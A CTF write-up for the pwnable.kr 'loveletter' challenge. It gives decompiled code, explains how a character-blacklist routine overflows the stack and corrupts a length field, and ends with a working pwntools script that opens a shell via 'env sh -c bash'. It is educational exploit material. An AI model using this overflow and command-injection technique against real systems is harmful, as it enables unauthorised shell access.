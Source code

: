 # Pwnable.kr Loveletter CTF Writeup

## Problem Description

The code of the program is:

### main

```c
080493a5  int32_t main(int32_t argc, char** argv, char** envp)

080493ac      void* const __return_addr_1 = __return_addr
080493b4      int32_t* var_14 = &argc
080493cb      char** argv_1 = argv
080493d1      void* gsbase
080493d1      int32_t eax_1 = *(gsbase + 0x14)
080493ed      memset(&loveletter, 0, 0x100)
080493ff      size_t eax_3 = strlen(epilog)
08049414      size_t eax_5 = strlen(prolog)
08049429      printf(format: &data_804a021)
08049449      void buf
08049449      fgets(&buf, n: 0x100, fp: *stdin)
08049449      
08049470      if (*(&buf + strlen(&buf) - 1) == 0xa)
08049487          *(&buf + strlen(&buf) - 1) = 0
08049487      
08049499      puts(str: &data_804a03c)
080494ab      protect(&buf)
080494bd      size_t eax_12 = strlen(&buf)
080494d2      puts(str: &data_804a068)
080494fb      memcpy(&loveletter + zx.d(idx), prolog, eax_5)
08049511      idx += eax_5.w
08049539      memcpy(&loveletter + zx.d(idx), &buf, eax_12)
0804954f      idx += eax_12.w
08049577      memcpy(&loveletter + zx.d(idx), epilog, eax_3)
0804958d      idx += eax_3.w
0804959e      puts(str: &data_804a08c)
080495a6      gid_t egid = getegid()
080495b7      setregid(rgid: getegid(), egid)
080495c9      system(line: &loveletter)
080495d9      *(gsbase + 0x14)
080495d9      
080495e0      if (eax_1 == *(gsbase + 0x14))
080495f1          return 0
080495f1      
080495e2      __stack_chk_fail_local()
080495e2      noreturn
```

### protect

```c
08049216  int32_t protect(char* arg1)

08049235      void* gsbase
08049235      int32_t eax_1 = *(gsbase + 0x14)
08049240      int32_t var_127
08049240      __builtin_strncpy(dest: &var_127, src: "#&;`\'\"|*?~<>^()[]{}$\\,", n: 0x17)
08049240      
08049376      for (int32_t i = 0; strlen(arg1) u> i; i += 1)
08049350          for (int32_t j = 0; strlen(&var_127) u> j; j += 1)
080492c4              if (arg1[i] == *(j + &var_127))
080492e2                  void var_110
080492e2                  strcpy(&var_110, &arg1[i + 1])
080492f8                  *(arg1 + i) = 0xa599e2
08049308                  size_t eax_13 = strlen(&var_110)
08049337                  memcpy(&arg1[strlen(arg1)], &var_110, eax_13)
08049337      
08049397      if (eax_1 == *(gsbase + 0x14))
080493a4          return eax_1 - *(gsbase + 0x14)
080493a4      
08049399      __stack_chk_fail_local()
08049399      noreturn
```

When running, we see this:

```bash
loveletter@ubuntu:~$ ./loveletter
♥ My lover's name is : itamar
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echoes in my mind...
I love itamar very much!
```

The program takes an input and replaces every character in the "blacklist" (which can cause command injection) with a heart. We need to get a shell and read the flag.

## Analysis

The first thing I noticed is a bug in the `protect()` function. The bug occurs when the program replaces a character with a heart but does not add a null terminator at the end. The issue is on this line:

`memcpy(&arg1[strlen(arg1)], &var_110, eax_13)`

It should be:

`memcpy(&arg1[strlen(arg1)], &var_110, eax_13 + 1)`

Additionally, each character is one byte, but the heart is three bytes. This means that replacing a character with a heart increases the input string's length by two bytes. We can see that the maximum length of the input is 0x100 (256 bytes), and it is located on the stack. This allows us to leverage the `protect()` function's behavior of extending the input buffer to perform a buffer overflow on the stack. Looking at the `main()` function, the stack layout is as follows:

```
eax_3 (epilog length) - 4 bytes
----------------------
eax_5 (prolog length) - 4 bytes
----------------------
buf[0x100]            - 256 bytes
```

My initial idea was to overflow `eax_5` (prolog length) with 0, so `loveletter` would start with my input, allowing me to call a shell using: `sh -c bash `. This way, the program would ignore the rest of the input (needed for the buffer overflow). By doing this, I could pass two arguments to `sh`: `bash` (to open a shell and read the flag) and the rest of the input, which `sh` would ignore.

However, there is a problem. There is no way to overflow `eax_5` with 0 because the input buffer increases by two bytes (and to set it to 0, it would need to increase by one byte). Additionally, I cannot write a 0 in the buffer because it would be treated as a null terminator and ignored.

Although I cannot overflow `eax_5` with 0, I can overflow it with any other number. After some thought, I realized I could use part of the prolog string (from its start) in my command. The issue is that my command (`sh -c bash `) starts with 's', while the prolog string starts with 'e'. Therefore, I needed a command that starts with 'e' and can take another command as an argument to execute it.

After some research, I found that `env` is perfect for this case. I can run: `env sh -c bash `, which will open a bash shell, allowing me to read the flag. To achieve this, I needed to set the prolog length to 1 and start my input with `nv sh -c bash`. When combined, this would execute `system("env sh -c bash AAAAAAAA...")`, opening a shell.

To overflow `eax_5` with 1, I needed to append the following to the input:

`...AAA + # + 0x01 + \0, 0x0c + 0x00 + 0x00 + 0x00` (the last four bytes represent the prolog length)

After the `protect()` function processes it, it will look like this:

`...AAA + a5 + 99 + e2, 0x01 + 0x00 + 0x00 + 0x00`

In conclusion, the input should look like this:

`nv sh -c bash AAAAAAA...#0x01`

## Exploit Code

```python
from pwn import *

context.log_level = 'info'

session = ssh(user='loveletter', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9034'])

payload = b"nv sh -c bash "
payload += b"A" * (253 - len(payload))
payload += b"#"
payload += b"\x01"

print(payload)

p.sendline(payload)
p.interactive() # cat flag
```

